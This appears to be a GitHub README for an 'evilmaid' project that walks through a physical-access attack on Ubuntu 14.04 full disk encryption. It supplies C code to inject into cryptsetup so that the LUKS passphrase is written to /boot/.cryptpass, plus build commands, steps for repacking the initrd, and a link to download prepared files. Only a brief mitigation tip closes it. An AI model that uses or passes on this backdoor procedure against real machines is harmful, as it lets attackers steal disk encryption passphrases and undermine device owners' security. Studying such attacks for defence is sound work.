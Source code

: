 # evilmaid

Evil maid attacks are the biggest threat to full disk encryption, if you can't provide 100% physical security. It's not about locking your machine every time you leave for a coffee, it's about the leaving itself! A well-prepared attacker is able to backdoor your machine in just about [2 minutes][gds]. Amazing, isn't it?

Seems like a great technique for law enforcement agencies, *infect & raid*. At least in Germany there's evidence they used this attack multiple times as [taz.de][taz] reported it in 2011. So you should protect yourself, but first you need to understand how it's done.

### Target

Ubuntu 14.04.4 using full disk encryption (http://releases.ubuntu.com/14.04/ubuntu-14.04.4-desktop-i386.iso)

### Preparations

Get a live CD and physical access to your target system. Boot and prepare it:
```sh
$ apt-get install build-essential
$ apt-get build-dep cryptsetup
```
[Download][files] & extract files.zip, it contains the source of cryptsetup-1.6.1 and an extracted initrd.img-4.2.0-27-generic.

### Attack

You need to tamper keymanage.c located in files/cryptsetup/cryptsetup-1.6.1/lib/luks1 to record the passphrase & save it to /boot/.cryptpass. Go to line 905 and inject the following code:

```sh
out:
		if (r >= 0) {
			FILE *fp;
			system(“/bin/busybox mkdir /mntboot”);
			system(“/bin/busybox mount -t ext4 /dev/sda1 /mntboot”);
			fp = fopen(“/mntboot/.cryptpass”, “a”);
			fprintf(fp, “%s\n”, password);
			fclose(fp);
			system(“/bin/busybox umount /mntboot”);
		}
```
Switch to files/cryptsetup/cryptsetup-1.6.1/ and build your malicious library:

```sh
./configure
make
sudo dpkg-buildpackage
```
This will fail, because you didn't commit your changes yet, just do a dpkg-source --commit and try it again.
Now go to files/cryptsetup/ and extract the malicious library:
```sh
mkdir evil
dpkg -x libcryptsetup4_1.6.1-1ubuntu1_i386.deb evil
```
In files/cryptsetup/evil/lib you'll find the malicious library, libcryptsetup.so.4.5.0, copy it and replace files/initrd/lib/libcryptsetup.so.4 with it. Go to files/initrd to put it all together:
```sh
find . | cpio --quiet --dereference -o -H newc | gzip > files/initrd.img
```
Replace /boot/initrd.img-4.2.0-27-generic on the target system with your malicious initrd.img. The passphrase will be recorded to /boot/.cryptpass as soon as your target unlocks his/her encrypted drive. Recording the passphrase may seem lame, but there's [a lot more you can do][two] and I'm working on it, stay tuned!

### Mitigation

Do it like Mike Cardwell described it in [Protecting a Laptop from Simple and Sophisticated Attacks][mike]. Buy a strong and waterproof USB stick and store /boot on it.

* Corsair Flash Survivor Stealth 32GB USB 3.0 Flash Drive - https://www.amazon.com/Corsair-Flash-Survivor-Stealth-Drive/dp/B00YP5X1TI/

Don't feel safe, just because you don't use Ubuntu... ;-)

#### Todos

 - There's a shell needed :-D

   [gds]: <https://github.com/GDSSecurity/EvilAbigail/>
   [taz]: <http://www.taz.de/!5110130/>
   [files]: <https://dl.dropbox.com/s/mvg8g5fxd5wq7p8/files.zip?dl=0>
   [mike]: <https://grepular.com/Protecting_a_Laptop_from_Simple_and_Sophisticated_Attacks>
   [two]: <https://twopointfouristan.wordpress.com/2011/04/17/pwning-past-whole-disk-encryption/>
